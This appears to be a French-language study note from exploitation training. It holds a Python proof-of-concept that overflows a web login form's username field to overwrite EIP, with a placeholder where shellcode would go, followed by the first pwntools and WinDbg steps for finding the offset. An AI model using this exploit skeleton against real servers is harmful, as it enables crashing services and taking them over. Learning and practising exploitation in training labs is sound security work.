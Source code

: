 ```python
#!/usr/bin/python
import socket, sys

try:
    server = sys.argv[1]
    port = 80
    filler = b"A" * 780         # jusqu'à EIP
    eip = b"B" * 4              # overwrite de EIP
    offset = b"C" * 4           # padding
    shellcode = b"D" * (1500 - len(filler) - len(eip) - len(offset))

    inputBuffer = filler + eip + offset + shellcode
    content = b"username=" + inputBuffer + b"&password=A"

    request = b"POST /login HTTP/1.1\r\n"
    request += b"Host: " + server.encode() + b"\r\n"
    request += b"Content-Type: application/x-www-form-urlencoded\r\n"
    request += b"Content-Length: " + str(len(content)).encode() + b"\r\n\r\n"
    request += content

    print("[+] Envoi du buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(request)
    s.close()
    print("[+] Fini.")
except:
    print("[-] Échec de connexion.")

```


---
## 📦 Payloads et étapes clés de l'exploitation buffer overflow (chapitre 3.4 complet)

---

### 1️⃣ Génération du pattern pour repérer l’offset dans EIP

```python
from pwn import *
print(cyclic(500))

```

Une fois le crash provoqué, récupérer EIP dans WinDbg et retrouver l’offset :

```python
cyclic_find(0x6c616161)  # Exemple : EIP = 0x6c616161
```
